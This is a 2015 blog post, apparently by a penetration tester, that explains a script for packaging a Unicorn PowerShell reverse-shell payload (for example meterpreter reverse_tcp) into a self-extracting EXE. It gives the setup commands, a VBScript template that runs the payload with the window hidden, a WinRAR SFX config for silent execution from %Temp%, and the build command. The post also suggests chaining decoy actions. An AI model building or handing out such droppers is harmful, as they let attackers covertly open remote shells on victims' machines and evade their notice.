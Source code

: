 ```yaml
---
layout: post
title: Making a Powershell EXE Payload
category: 
year: 2015
month: 5
day: 13
published: true
summary: A script to make a powershell payload into an executable
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>I've been using TrustedSec's <a href="https://github.com/trustedsec/unicorn">Unicorn</a> a LOT over the past few months. In fact, it's become my go-to payload to pop a box. While it's awesome to be able to paste a command and get a shell, sometimes an EXE is required.

<p>For those cases, I've made a script to make the whole process automated: <code>powershell_exe.py</code>


<p><h3>tl;dr</h3>
<code>powershell_exe.py</code> uses winrar's commandline options under wine to make a self-extracting archive.
<p><a href="https://github.com/bluscreenofjeff/Scripts/blob/master/powershell_exe.py">Source</a>

<p><b>Setup instructions</b>
{% highlight bash lineanchors %}
cd /opt
git clone https://github.com/trustedsec/unicorn.git

cd ~/Desktop
wget http://www.rarlab.com/rar/wrar511.exe
wine wrar511.exe
{% endhighlight %}
<p>Now just go through the default options of winrar to finish the install.
<br>
<p><b>Usage:</b>
{% highlight bash lineanchors %}
python power_exe.py <payload> <ip address> <port>
Example: python power_exe.py windows/meterpreter/reverse_tcp 192.168.1.5 443
{% endhighlight %}  
<br>
<p><b>Results</b>
<p>The script outputs a <code>powerpay.exe</code> file and leaves Unicorn's <code>powershell_attack.txt</code> file. 
<p>To have the script remove the Unicorn command, uncomment line 39: <code>system("rm powershell_attack.txt")</code>


<p><h3>How it works</h3>
<p>The script runs Unicorn using the provided options for payload, IP, and port. The result is the Powershell command text in <code>powershell_attack.txt</code>.

<p>The code from <code>powershell_attack.txt</code> is inserted into the following vbscript file to call the command without that ugly black command prompt popping up:
{% highlight basic lineanchors %}
Dim shell,command
command = "<POWERSHELLCOMMAND>"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
{% endhighlight %}
<br>
<p>An <code>xfs.config</code> file is written for winrar:
{% highlight bash lineanchors %}
;The comment below contains SFX script commands

Path=%Temp%
Setup=run.vbs
Silent=1
Overwrite=1
{% endhighlight %}
<p>You can have multiple Setup lines in that file, so if you wanted to have the payload run and then create an error or run an intel script, you could just edit the config file, add the file creation to the script, and edit the wine command below.
<br>

<p>Winrar's command line options are plentiful, but for our purposes the syntax is as follows:<br>
{% highlight bash lineanchors %}
wine /root/.wine/drive_c/Program\ Files/WinRAR/Rar.exe a -r -u -sfx -z'xfs.config' powerpay run.vbs
{% endhighlight %}
What the flags mean:
<ul style="list-style-type: none;">
  <li><b>a</b> : adds to the designated archive (powerpay in this case)</li>
  <li><b>-r</b> : recurses subfolders (if applicable)</li>
  <li><b>-u</b> : updates the archive with new files and adds the new files to the archive</li>
  <li><b>-sfx</b> : makes the archive an SFX (self-extracting) archive</li>
  <li><b>-z</b> : specifies the xfs.config file. Note there is no space between the flag and path to config file</li>
  <li><b>powerpay</b> : name of the archive. This will output as powerpay.exe</li>
  <li><b>run.vbs</b> : the file being added to the archive. You can add multiple files with spaces between the paths</li>
</ul>

<p>That's it! It should probably be said that I am <b>not</b> a programmer, so the source is definitely not written the "right" way. 

     </div>

</div>
<div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>